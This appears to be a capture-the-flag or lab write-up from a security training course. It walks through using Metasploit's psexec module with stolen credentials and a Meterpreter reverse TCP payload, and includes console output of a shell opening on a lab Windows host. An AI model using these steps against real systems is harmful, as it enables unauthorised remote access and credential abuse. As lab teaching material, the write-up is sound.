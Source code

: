 # **Challenge 6: Metasploit**
!!! note ""
## **Procedure:**

Now that we have a username and password, we need to use them to gain access to one of the Windows targets. Connecting using "legitimate" means like Remote Desktop Protocol (RDP) could be possible, but a Meterpreter shell can give us more user-friendly options to achieve our goals. 

- Start up the Metasploit framework on Kali, and load the windows/smb/psexec exploit module. 
Note: This module is a common exploit for gaining access to Windows machines with stolen credentials. 
- Configure the module's options to set the username and password you found previously. You will not need to specify a domain. 
Set the `RHOSTS` target to one of the Windows IPs you found with Nmap earlier. 
Note: These credentials will only work on one of the two Windows machines. If the exploit fails, set the other IP address as the target and try again.
- Set the payload to `windows/x64/meterpreter/reverse_tcp` and confirm its options automatically configure properly.
- Run the exploit. If everything works, you will be dropped into a Meterpreter shell on the target system. If not, test it against the other Windows target. If neither exploit works, double-check your options (check for typos in IP addresses, usernames, passwords, etc.) 


## **Solution:**

### Start up the Metasploit framework on Kali, and load the `windows/smb/psexec` exploit module.

![alt text](images/Pasted%20image%2020240508001358.png)

### Showing the options in the `windows/smb/psexec` exploit module.

![alt text](images/Pasted%20image%2020240508001604.png)



### Set the RHOSTS and running the `psexec` module (Windows VM 172.31.43.103)

```bash linenums="1" hl_lines="2 15"
msf6 exploit(windows/smb/psexec) > set RHOST 172.31.43.103
RHOST => 172.31.43.103
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 172.31.39.126:4444 
[*] 172.31.43.103:445 - Connecting to the server...
[*] 172.31.43.103:445 - Authenticating to 172.31.43.103:445 as user 'Administrator'...
[*] 172.31.43.103:445 - Selecting PowerShell target
[*] 172.31.43.103:445 - Executing the payload...
[+] 172.31.43.103:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 172.31.43.103
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[*] Meterpreter session 1 opened (172.31.39.126:4444 -> 172.31.43.103:49962) at 2024-05-08 04:20:56 +0000

meterpreter > sysinfo
Computer        : EC2AMAZ-L3OOUG8
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > 
```

## The meterpreter shell was sucesfully deployed


!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_5/" class="md-button md-button--primary">Previous: Challenge 5</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/challenge_7/" class="md-button md-button--primary">Next: Challenge 7</a>
</div>


